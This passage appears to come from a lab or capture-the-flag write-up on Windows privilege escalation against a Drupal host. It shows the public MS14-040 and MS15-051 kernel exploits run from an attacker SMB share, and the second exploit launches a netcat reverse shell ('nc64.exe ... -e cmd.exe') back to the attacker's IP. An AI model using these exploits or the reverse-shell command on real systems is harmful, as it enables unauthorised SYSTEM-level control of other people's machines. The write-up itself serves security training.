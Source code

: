 > MS14-040: Vulnerability in Ancillary Function Driver (AFD) Could Allow Elevation of Privilege
>
> Ancillary Function Driver Elevation of Privilege Vulnerability - CVE-2014-1767
>
> A vulnerability exists in the Ancillary Function Driver (AFD) that could allow elevation of privilege. An attacker who successfully exploited this vulnerability could execute arbitrary code and take complete control of an affected system.

Binary:

{% embed url="https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS14-040/MS14-040-x64.exe" %}

Run the exploit on the target via our SMB share:

```
C:\inetpub\drupal-7.54>\\10.10.14.10\SHARE\MS14-040-x64.exe
\\10.10.14.10\SHARE\MS14-040-x64.exe

whoami

c:\Windows\System32>whoami
whoami
nt authority\system

c:\Windows\System32>
```

### MS15-051

Description:

> Win32k Elevation of Privilege Vulnerability - CVE-2015-1701&#x20;
>
> An elevation of privilege vulnerability exists when the [Win32k.sys](https://technet.microsoft.com/en-us/library/security/dn848375.aspx) kernel-mode driver improperly handles objects in memory. An attacker who successfully exploited this vulnerability could run arbitrary code in kernel mode.

Binary:

{% embed url="https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS15-051/MS15-051-KB3045171.zip" %}

Download and unzip the archive. For this exploit, we'll be using "ms15-051x64.exe" via our SMB share. Let's start a new listener and run the exploit as follows:

```
C:\inetpub\drupal-7.54>\\10.10.14.10\SHARE\ms15-051x64.exe "C:\inetpub\drupal-7.54\nc64.exe 10.10.14.10 8888 -e cmd.exe"
\\10.10.14.10\SHARE\ms15-051x64.exe "C:\inetpub\drupal-7.54\nc64.exe 10.10.14.10 8888 -e cmd.exe"
[#] ms15-051 fixed by zcgonvh
[!] process with pid: 836 created.
==============================

```

In our listener, we get a shell as "system":
